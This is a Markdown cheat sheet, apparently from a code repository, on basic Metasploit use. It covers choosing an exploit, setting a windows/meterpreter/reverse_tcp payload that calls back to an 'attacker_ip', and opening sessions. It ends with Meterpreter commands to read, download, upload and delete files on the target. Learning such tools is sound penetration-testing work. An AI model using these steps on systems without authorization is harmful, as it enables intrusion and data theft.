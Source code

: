 # Metasploit and Basic Steps

## Starting Metasploit

To start Metasploit, open a terminal and run:

```bash
msfconsole
```

If you encounter a database error, you might need to enable the PostgreSQL service:

```bash
service postgresql start 
service metasploit start
msfconsole
```

## Basic Steps

1. **Picking an Exploit**

   To list all available exploits:

   ```bash
   msf> show exploits
   ```

   You can use the `search` command to find exploits more quickly:

   ```bash
   msf> help search
   ```

   Select an exploit using:

   ```bash
   msf> use "name of exploit"
   msf> info "name of exploit"
   ```

2. **Setting Exploit Options**

   Choose the right exploit and configure its options:

   ```bash
   msf> set RHOSTS target_ip
   msf> set RPORT target_port
   ```

3. **Picking a Payload**

   List available payloads:

   ```bash
   msf> show payloads
   ```

   Select a payload, e.g., `reverse_tcp`:

   ```bash
   msf> set payload windows/meterpreter/reverse_tcp
   ```

4. **Setting Payload Options**

   Display payload options:

   ```bash
   msf> show options
   ```

   Set payload options (e.g., `LHOST`):

   ```bash
   msf> set LHOST attacker_ip
   ```

5. **Running the Exploit**

   Run the exploit:

   ```bash
   msf> exploit
   ```

6. **Connecting to the Remote System**

   List available sessions:

   ```bash
   msf> sessions
   ```

   Connect to a session:

   ```bash
   msf> sessions -i session_id
   ```

   Switch to the Meterpreter prompt:

   ```bash
   meterpreter>
   ```

7. **Performing Post Exploitation Process**

   Use various Meterpreter commands for post-exploitation tasks.

# Meterpreter Shell

Meterpreter is a powerful shell for post-exploitation tasks.

## Basic Meterpreter Commands

### Core Commands

```bash
meterpreter> background  # Background the session
meterpreter> sessions -i session_id  # Return to a backgrounded session
meterpreter> load module_name  # Load additional modules
meterpreter> run module_name  # Run loaded module
meterpreter> exit  # Exit Meterpreter
```

### File System Commands

```bash
meterpreter> cat file_path  # Read file contents
meterpreter> cd directory_path  # Change directory
meterpreter> download remote_file local_path  # Download a file
meterpreter> upload local_file remote_path  # Upload a file
meterpreter> ls  # List files
meterpreter> pwd  # Print working directory
meterpreter> mkdir directory_name  # Create a directory
meterpreter> rm file_path  # Remove a file
meterpreter> rmdir directory_path  # Remove a directory
```
